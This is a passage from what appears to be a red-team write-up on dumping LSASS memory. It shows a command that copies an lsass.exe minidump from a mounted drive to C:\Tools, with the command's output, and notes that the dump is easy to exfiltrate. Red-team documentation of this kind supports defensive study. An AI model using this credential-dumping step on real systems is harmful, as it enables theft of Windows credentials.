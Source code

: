 Next copy the minidump file from the mount point onto `C:\Tools` as follows:

```
M:\> copy M:\name\lsass.exe-856\minidump C:\Tools
M:\name\lsass.exe-856\minidump\readme.txt
M:\name\lsass.exe-856\minidump\minidump.dmp
        2 file(s) copied.
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230825162641.png)

Note that the size of this minidump is as much as normal minidump for lsass would be making this easy to exfiltrate.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230825162936.png)
